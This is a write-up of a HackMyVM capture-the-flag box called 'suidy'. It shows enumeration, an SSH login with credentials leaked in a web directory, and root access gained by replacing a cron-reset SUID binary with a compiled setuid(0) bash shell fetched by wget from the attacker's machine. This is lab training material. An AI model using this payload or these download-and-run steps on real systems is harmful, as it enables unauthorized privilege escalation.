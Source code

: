 ```yaml
---
title: HackMyVM - suidy
description: My writeup on suidy box.
categories:
 - HackMyVM
tags: HackMyVM suid
---
```


![](https://i.imgur.com/vIkqVK9.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

This one was as tricky box, we start by finding a message that provide us access to the box. Privesc to root is tricky we have to detect a cronjob that set SUID to ta specific file. We have to recreate our own SUID C shell and replace it. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.5
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:43 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00042s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:3F:4E:95 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.15 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:44 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 8a:cb:7e:8a:72:82:84:9a:11:43:61:15:c1:e6:32:0b (RSA)
|   256 7a:0e:b6:dd:8f:ee:a7:70:d9:b1:b5:6e:44:8f:c0:49 (ECDSA)
|_  256 80:18:e6:c7:01:0e:c6:6d:7d:f4:d2:9f:c9:d0:6f:4c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html 
/index.html (Status: 200)
/robots.txt (Status: 200)
```

`/robots.txt` in the very end has a directory:

```
$ curl http://192.168.1.5/robots.txt
/hi
/....\..\.-\--.\.-\..\-.

..space..

/shehatesme
```

## Shell as theuser

This directory has a message:

```
She hates me because I FOUND THE REAL SECRET! I put in this directory a lot of .txt files. ONE of .txt files contains credentials like "theuser/thepass" to access to her system! All that you need is an small dict from Seclist! 
```

This is the tricky part, we can see the credentials already `theuser/thepass` so we can login in using SSH. :smile:

```
$ ssh theuser@$ip                                        s.
theuser@192.168.1.5's password: 

theuser@suidy:~$ whoami;id
theuser
uid=1000(theuser) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## Shell as root

Box name is `suidy` so let's search for SUID files:

```
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsrwsr-x 1 root theuser 16704 sep 26 23:46 /home/suidy/suidyyyyy
-rwsr-xr-x 1 root root 63568 ene 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 34888 ene 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 ene 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54096 jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63736 jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 jul 27  2018 /usr/bin/chsh
-rwsr-xr-- 1 root messagebus 51184 jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

`/home/suidy/suidyyyyy` perfect! If we run it we get shell as suidy but after that nothing:

```
theuser@suidy:~$ /home/suidy/suidyyyyy
suidy@suidy:~$ whoami;id
suidy
uid=1001(suidy) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Here i got stuck for a long time & i decided to run `pspy`:

```
suidy@suidy:/tmp$ wget -q 192.168.1.14/pspy64
suidy@suidy:/tmp$ chmod +x pspy64
suidy@suidy:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

..data.. 

2020/10/01 20:56:01 CMD: UID=0    PID=653    | /bin/sh -c sh /root/timer.sh 
2020/10/01 20:56:01 CMD: UID=0    PID=654    | sh /root/timer.sh 
```

There is a cronjob that runs this file as root, after some experiments i found out that this file gives SUID to `/home/suidy/suidyyyyy`. So let's make a SUID C shell, compile it and transfer it on the box to replace `/home/suidy/suidyyyyy`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

```
$ touch suid.c
$ nano suid.c 
$ gcc suid.c -o suid
```

Let's move it on the target system now:

```
theuser@suidy:/home/suidy$ wget -q 192.168.1.14/suid -O suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwxrwxr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwsrwsr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ./suidyyyyy 
root@suidy:/home/suidy# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(theuser)
```

Let's read the flags:

```
root@suidy:/root# cat root.txt | cut -c1-5
HMV00
root@suidy:/root# cat /home/theuser/user.txt | cut -c1-5
HMV23
```

Tricky box! :smile:
